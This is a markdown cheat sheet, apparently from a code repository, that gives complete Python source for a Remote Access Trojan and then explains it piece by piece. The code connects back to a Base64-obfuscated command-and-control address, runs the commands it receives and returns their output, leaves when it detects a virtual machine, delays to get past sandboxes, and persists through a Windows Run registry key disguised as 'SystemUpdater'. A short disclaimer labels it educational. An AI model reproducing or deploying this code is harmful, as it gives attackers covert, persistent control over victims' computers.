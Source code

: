 # Remote Access Trojan (RAT) Cheat Sheet (For Educational Purposes)

This cheat sheet details a basic **Python-based Remote Access Trojan (RAT)**. A RAT enables a remote attacker to gain control of a compromised machine, providing the ability to execute commands, exfiltrate data, or install additional payloads.

---

## RAT Overview

A **RAT** is designed to:
- **Establish a Remote Connection**: Connect back to an attacker's server to receive commands.
- **Receive Commands**: Execute shell commands or run scripts as instructed by the attacker.
- **Send Back Data**: Return results to the attacker's server, making it a two-way communication channel.

---

## Key Features in This RAT

1. **Connection Establishment**: Automatically connects back to a specified C2 server.
2. **Command Execution**: Runs system commands sent by the attacker.
3. **Anti-Analysis Evasion**: Checks for sandbox environments and includes a delay to evade detection.
4. **Automatic Dependency Installation**: Installs required Python modules on the compromised machine.
5. **Persistence**: Adds the RAT as a startup item to retain access across reboots.

---

## Advanced Python RAT Code

This code includes automatic dependency checks, stealth techniques, and persistence mechanisms. The RAT listens for incoming commands, executes them, and sends the results back to the attacker.

### Full RAT Code

```python
import os
import sys
import socket
import subprocess
import time
import ctypes
import base64

# Automatically check and install dependencies
def install_module(module_name):
    try:
        __import__(module_name)
    except ImportError:
        print(f"[*] Installing {module_name} module...")
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])

# Ensure required modules are installed
install_module("requests")
import requests

# C2 server details (encoded for obfuscation)
C2_SERVER = base64.b64decode("MTkyLjE2OC4xLjEwOjQ0NDQ=").decode('utf-8')  # Replace with actual IP:port (e.g., "192.168.1.10:4444")

# Virtual environment check
def is_virtual_environment():
    vmware_check = "VMware" in subprocess.getoutput("systeminfo")
    virtualbox_check = "VirtualBox" in subprocess.getoutput("systeminfo")
    return vmware_check or virtualbox_check

# Anti-sandbox delay
time.sleep(10)

# Function to add persistence
def add_persistence():
    try:
        key = r"Software\Microsoft\Windows\CurrentVersion\Run"
        value_name = "SystemUpdater"
        rat_path = os.path.realpath(sys.argv[0])
        ctypes.windll.advapi32.RegSetValueExW(ctypes.windll.advapi32.HKEY_CURRENT_USER, key, 0, 1, value_name, rat_path)
        print("[*] Persistence achieved via registry key.")
    except Exception as e:
        print(f"[!] Failed to add persistence: {e}")

# Define the RAT connection and command execution
def rat():
    # Exit if a virtual environment is detected
    if is_virtual_environment():
        print("[!] Virtual environment detected. Exiting.")
        sys.exit(1)
    
    # Add persistence
    add_persistence()

    # Main connection loop
    while True:
        try:
            # Connect to C2 server
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            server_ip, server_port = C2_SERVER.split(":")
            sock.connect((server_ip, int(server_port)))
            
            # Notify connection success
            sock.send(b"[+] Connection Established\n")
            
            while True:
                # Receive command from C2 server
                command = sock.recv(1024).decode("utf-8")
                if command.lower() == "exit":
                    break
                
                # Execute command and send results back
                output = subprocess.getoutput(command)
                sock.send(output.encode("utf-8") + b"\n")
            
            sock.close()
        except Exception as e:
            print(f"[!] Connection error: {e}")
            time.sleep(5)  # Reconnect delay

# Run the RAT
if __name__ == "__main__":
    rat()
```

---

## Explanation of Key Components

### 1. **Automatic Dependency Installation**

The `install_module()` function ensures that required Python modules are installed, checking for missing dependencies and installing them automatically with `pip`.

```python
def install_module(module_name):
    try:
        __import__(module_name)
    except ImportError:
        print(f"[*] Installing {module_name} module...")
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])
```

### 2. **Obfuscated C2 Server Address**

The IP address and port of the command-and-control (C2) server are Base64 encoded to evade static analysis, then decoded at runtime.

```python
C2_SERVER = base64.b64decode("MTkyLjE2OC4xLjEwOjQ0NDQ=").decode('utf-8')  # Replace with actual IP:port
```

### 3. **Virtual Environment Detection**

To detect and avoid sandboxes or virtual environments, the `is_virtual_environment()` function checks for VMware or VirtualBox indicators in `systeminfo`.

```python
def is_virtual_environment():
    vmware_check = "VMware" in subprocess.getoutput("systeminfo")
    virtualbox_check = "VirtualBox" in subprocess.getoutput("systeminfo")
    return vmware_check or virtualbox_check
```

### 4. **Persistence Mechanism**

The RAT uses the Windows registry to add itself to startup, achieving persistence so it will execute every time the system boots.

```python
def add_persistence():
    key = r"Software\Microsoft\Windows\CurrentVersion\Run"
    value_name = "SystemUpdater"
    rat_path = os.path.realpath(sys.argv[0])
    ctypes.windll.advapi32.RegSetValueExW(ctypes.windll.advapi32.HKEY_CURRENT_USER, key, 0, 1, value_name, rat_path)
```

### 5. **Main RAT Functionality**

The `rat()` function establishes a connection to the C2 server, receives commands, executes them, and sends results back. If the connection drops, it attempts to reconnect after a short delay.

```python
def rat():
    while True:
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            server_ip, server_port = C2_SERVER.split(":")
            sock.connect((server_ip, int(server_port)))
            sock.send(b"[+] Connection Established\n")
            
            while True:
                command = sock.recv(1024).decode("utf-8")
                if command.lower() == "exit":
                    break
                
                output = subprocess.getoutput(command)
                sock.send(output.encode("utf-8") + b"\n")
            
            sock.close()
        except Exception as e:
            time.sleep(5)  # Reconnect delay
```

---

## Security and Legal Disclaimer

This RAT code is provided strictly for educational purposes and should only be used in an isolated lab environment with proper authorization. Unauthorized use of malware is illegal and unethical.

```
